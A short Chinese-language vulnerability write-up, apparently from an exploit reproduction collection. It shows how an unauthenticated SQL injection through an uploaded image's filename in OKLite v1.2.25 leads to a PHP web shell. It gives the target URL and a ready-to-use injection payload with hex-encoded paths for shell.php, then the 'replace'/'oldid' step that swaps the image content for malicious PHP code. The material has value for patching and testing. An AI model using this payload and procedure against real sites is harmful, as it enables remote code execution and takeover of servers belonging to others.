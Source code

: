 # OKLite v1.2.25 SQL注入导致getshell(前台)

### 一、漏洞简介

这个漏洞在2017年在PHPOK当中就被畅师傅就被发现了。PHPOK系统被修复了，但是在OKLite当中还存在。

### 二、漏洞影响

OKLite v1.2.25 版本

### 三、复现过程

地址：`http://url/index.php?id=message`

在线留言处上传一个图片并抓包，把文件名修改为：


```bash
1','pf3qm0js3gb2s5f33r7lf14vl3','30'),('1',0x7265732f3230313931302f30342f,'shell.jpg','jpg',0x7265732f3230313931302f30352f7368656c6c2e706870,'1570161575','abc
```

![](images/15891973346961.png)


上传成功之后会返回图片的id和保存的路径：

![](images/15891973425591.png)


再次上传一个图片，把地址中的save改成replace，添加一个参数名为oldid，值为图片的id + 1。

图片的内容改为恶意的php代码：

![](images/15891973498121.png)


上传完成之后可在res\201910\05目录下生成一个shell.php

![](images/15891973575395.png)
